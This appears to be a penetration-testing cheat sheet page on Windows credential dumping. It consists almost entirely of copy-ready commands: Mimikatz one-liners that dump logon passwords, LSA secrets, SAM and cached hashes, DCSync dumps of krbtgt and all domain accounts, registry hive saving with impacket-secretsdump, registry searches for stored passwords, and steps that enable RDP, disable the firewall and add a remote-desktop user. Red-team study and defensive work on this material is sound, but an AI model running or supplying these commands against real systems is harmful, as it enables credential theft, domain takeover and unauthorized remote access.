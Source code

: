 # Credential Dumping

#### Mimikatz <a href="#mimikatz" id="mimikatz"></a>

```
# One liner dump hashes and secrets
.\mimikatz.exe "privilege::debug" "token::elevate" "log mimi.log" "sekurlsa::logonpasswords" "lsadump::lsa" "lsadump::sam" "lsadump::secrets" "lsadump::cache" exit

# One liner For DCsync hash dump
.\mimikatz.exe "log mimi2.log" "token::elevate" "privilege::debug" "lsadump::dcsync /domain:svcorp.com /user:krbtgt" "lsadump::dcsync /domain:svcorp.com /csv /all" exit

# Single commands
privilege::debug
token::elevate
log mimi.log
sekurlsa::logonpasswords
lsadump::lsa
lsadump::sam
lsadump::secrets
lsadump::cache
lsadump::dcsync /domain:svcorp.com /user:krbtgt
lsadump::dcsync /domain:svcorp.com /csv /all
```

#### Saved registry <a href="#saved-registry" id="saved-registry"></a>

```
reg.exe save hklm\sam c:\temp\sam.save  
reg.exe save hklm\security c:\temp\security.save  
reg.exe save hklm\system c:\temp\system.saveÂ 
```

```
impacket-secretsdump -sam sam.save -system system.save LOCAL
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

#### Stored Credentials <a href="#stored-credentials" id="stored-credentials"></a>

```
#RegistryÂ Registry can be queried as in some occasions might contain credentials.Â 
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /sÂ 

#Windows AutologinÂ 
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# Putty Credentials saved in the registry.
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# RealVNC stored password
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4" /v password
```

> Reference: https://pentestlab.blog/2017/04/19/stored-credentials/

### Enable RDP <a href="#enable-rdp" id="enable-rdp"></a>

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

netsh advfirewall set allprofiles state off

net localgroup "remote desktop users" <username> /add
```
